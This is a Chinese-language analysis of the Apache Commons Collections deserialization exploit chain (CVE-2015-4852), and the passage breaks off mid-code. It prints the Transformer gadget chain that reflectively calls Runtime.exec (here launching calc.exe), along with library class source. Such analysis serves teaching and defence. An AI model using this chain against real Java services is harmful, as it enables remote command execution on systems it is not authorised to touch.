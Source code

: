 # Apache Commons Collections反序列化链漏洞分析 （CVE-2015-4852） 


## 0x00 Introduction

反序列化链经典案例。    

反序列化漏洞利用成功条件：
1. 反序列化数据输入点
2. 反序列化操作触发函数（类似PHP魔法函数）
3. 漏洞利用执行函数序列

### 环境准备
- idea
- commons-collections-3.1.jar

>Java commons-collections是JDK 1.2中的一个主要新增部分。它添加了许多强大的数据结构，可以加速大多数重要Java应用程序的开发。从那时起，它已经成为Java中公认的集合处理标准。

- [poc代码](./CVE-2015-4852/src/PoC.java)

## 0x01 利用链分析（由里到外）
 

### 1.transform反射执行命令
这个漏洞核心是transformer结构。   
Commons Collections实现了一个TransformedMap类，该类是对Java标准数据结构Map接口的一个扩展。该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap实例化时作为参数传入。
org.apache.commons.collections.Transformer这个类可以满足固定的类型转化需求，其转化函数可以自定义实现，我们的漏洞利用效果函数就是在于这个点。    
主要涉及PoC代码：    
```java
final Transformer[] transforms = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class }, new String[]{"calc.exe"}), new ConstantTransformer(1)
};
Transformer transformerChain = new ChainedTransformer(transforms);
```
这些Transformer对象都离不开transform方法，ConstantTransformer类初始化传入this.iConstant参数直接return，相当于this的作用。    
```java
public class ConstantTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;


    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }

}
```
InvokerTransformer类的transform则是反射,可以构造调用任意类方法。    
```java
public class InvokerTransformer implements Transformer, Serializable {
    static final long serialVersionUID = -8653385846894047688L;
```